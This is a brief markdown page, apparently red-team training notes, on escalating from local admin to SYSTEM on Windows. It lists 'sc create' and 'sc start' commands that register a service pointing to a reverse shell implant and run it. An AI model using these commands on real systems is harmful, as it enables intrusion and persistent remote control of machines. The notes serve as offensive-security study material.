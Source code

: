 # Creating a New Service \(admin to system\)

this method is used for high level integrity to system level integrity privesc so **you must have local admin access**

this is the most simple way toget system from admin access

create a service and specify the path to your reverse shell payload as service binary path:

```text
sc create lol binPath= "c:\RTO\LPE\implant\implant.exe"
```

start a listener and start the service:

```text
sc start lol
```

Done!

